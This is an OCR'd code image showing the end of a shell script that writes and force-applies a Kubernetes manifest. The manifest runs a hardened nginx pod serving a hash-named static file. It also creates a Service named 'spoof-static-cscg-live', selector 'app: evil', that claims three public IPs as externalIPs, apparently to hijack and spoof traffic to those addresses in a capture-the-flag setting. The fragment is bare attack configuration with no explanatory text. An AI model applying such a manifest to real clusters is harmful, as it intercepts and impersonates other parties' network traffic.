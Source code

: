 ```
      ports:
        - containerPort: 8443
      volumeMounts:
        - name: tls-secret
          mountPath: /etc/nginx/certs
          readOnly: true
        - name: nginx-config
          mountPath: /etc/nginx/conf.d/default.conf
          subPath: nginx.conf
        - name: static-file
          mountPath: /usr/share/nginx/html/ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666
          readOnly: true
      securityContext:
        runAsNonRoot: true
        allowPrivilegeEscalation: false
        capabilities:
          drop:
            - ALL
        seccompProfile:
          type: RuntimeDefault
      resources:
        requests:
          cpu: "50m"
          memory: "64Mi"
        limits:
          cpu: "100m"
          memory: "100Mi"

---
apiVersion: v1
kind: Service
metadata:
  name: spoof-static-cscg-live
  namespace: ctf
spec:
  externalIPs:
    - 147.28.207.143
    - 147.75.204.231
    - 147.28.207.163
  ports:
    - name: https
      port: 443
      targetPort: 8443
  selector:
    app: evil
EOF

kubectl apply -f combined.yaml --force 
```
